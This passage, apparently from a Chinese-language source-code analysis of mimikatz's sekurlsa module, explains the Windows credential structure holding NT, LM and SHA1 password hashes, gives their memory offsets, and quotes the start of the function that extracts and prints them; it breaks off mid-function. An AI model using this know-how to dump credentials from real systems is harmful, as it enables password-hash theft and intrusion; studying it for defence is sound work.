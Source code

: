 ```c++
    #pragma pack(pop) 
    BYTE NtOwfPassword[LM_NTLM_HASH_LENGTH];
    BYTE LmOwfPassword[LM_NTLM_HASH_LENGTH];
    BYTE ShaOwPassword[SHA_DIGEST_LENGTH];
    /* buffer */
} MSV1_0_PRIMARY_CREDENTIAL_10_1607, *PMSV1_0_PRIMARY_CREDENTIAL_10_1607;
```

其中 `NtOwfPassword`、`LmOwfPassword` 和 `ShaOwPassword` 这三个关键的字节序列分别存储了用户的 NT Hash、LM Hash 和 SHA1 散列值，三者在该结构中的偏移量分别是 `0x4A`、`0x5A` 和 `0x6A`。`kuhl_m_sekurlsa_genericCredsOutput()` 函数的作用就是根据三种哈希值在内存中的偏移量来取出它们的值，再以 Hex 格式打印出来，该函数定义如下。

```c++
VOID kuhl_m_sekurlsa_genericCredsOutput(PKIWI_GENERIC_PRIMARY_CREDENTIAL mesCreds, PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA pData, ULONG flags)
{
    PUNICODE_STRING username = NULL, domain = NULL, password = NULL;
    PKIWI_CREDENTIAL_KEYS pKeys = NULL;
    PKERB_HASHPASSWORD_GENERIC pHashPassword;
    UNICODE_STRING buffer;
    DWORD type, i;
    BOOL isNull = FALSE;
    PWSTR sid = NULL;
    PBYTE msvCredentials;
    const MSV1_0_PRIMARY_HELPER * pMSVHelper;
#if defined(_M_X64) || defined(_M_ARM64)
    // ......
#endif
    SHA_CTX shaCtx;
    SHA_DIGEST shaDigest;

    if(mesCreds)
    {
        // 将 SID 转换为适合显示的字符串格式
        ConvertSidToStringSid(pData-&gt;pSid, &amp;sid);
        if(flags &amp; KUHL_SEKURLSA_CREDS_DISPLAY_CREDENTIAL)
        {
            type = flags &amp; KUHL_SEKURLSA_CREDS_DISPLAY_CREDENTIAL_MASK;
            //  Buffer 是指向缓存凭据的内存地址，这里将包含凭据的加密内存指针赋给 msvCredentials
